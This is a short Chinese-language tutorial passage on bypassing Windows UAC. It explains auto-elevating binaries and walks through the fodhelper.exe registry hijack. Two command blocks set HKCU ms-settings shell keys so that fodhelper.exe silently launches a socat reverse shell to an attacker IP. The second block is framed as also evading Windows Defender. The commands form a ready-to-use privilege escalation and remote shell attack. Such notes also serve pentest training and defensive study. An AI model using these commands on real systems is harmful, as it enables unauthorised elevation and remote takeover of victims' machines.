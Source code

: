 注意： mmc.exe 将根据用户请求的 .msc 管理单元自动提升。Windows 中包含的大多数 .msc 文件都会自动提升。pkgmgr.exe 和 spinstall.exe也可以自动提升。

 [COM 对象还可以通过配置一些注册表项 ( https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker) )来请求自动提升。

## ****案例研究：Fodhelper****

概述：Fodhelper.exe 是 Windows 默认可执行文件之一，负责管理 Windows 可选功能，包括其他语言、默认未安装的应用程序或其他操作系统特性。它可以在使用默认 UAC 设置时自动提升。

原理：

fodhelper 它会在注册表中搜索感兴趣的特定键。如果在注册表中未配置用户特定关联，则将使用**HKEY_LOCAL_MACHINE (HKLM)处的系统范围关联**。 这样，每个用户都可以根据需要单独选择他们喜欢的应用程序

应用阶段1：

第一条命令：配置注册表中的特定键

第二条命令：设置键中内容

第三条命令：设置了叫**DelegateExecute的空键**

第四条命令：配置此键让cmd运行

```bash
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f
```

命令配置完成后，使用fodhelper.exe 就会弹shell过去。

![Untitled](UAC%20bypass%205307d952fb654cccb92781a5e3e961e0/Untitled%208.png)

## 绕过Windows Defender 使用fodhelper 进行bypass UAC

```bash
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```
